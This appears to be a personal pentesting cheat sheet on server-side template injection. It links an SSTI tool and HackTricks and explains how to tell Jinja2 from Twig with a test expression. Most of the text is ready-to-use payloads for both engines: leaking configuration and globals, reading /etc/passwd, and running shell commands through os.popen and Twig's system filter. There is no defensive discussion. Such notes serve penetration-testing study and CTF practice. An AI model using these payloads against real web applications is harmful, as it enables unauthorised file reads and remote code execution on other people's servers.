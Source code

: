 ____
https://github.com/vladko312/SSTImap
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

![[Pasted image 20241004110914.png]]

`{{7*'7'}}`. The result will enable us to deduce the template engine used by the web application. In Jinja, the result will be `7777777`, while in Twig, the result will be `49`.

# Jinja2

## Information Disclosure

```jinja2
{{ config.items() }}
```

```jinja2
{{ self.__init__.__globals__.__builtins__ }}
```

## LFI

```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```

## RCE

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

# Twig

## Information Disclosure

```twig
{{ _self }}
```

## LFI

```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

## RCE

```twig
{{ ['id'] | filter('system') }}
```


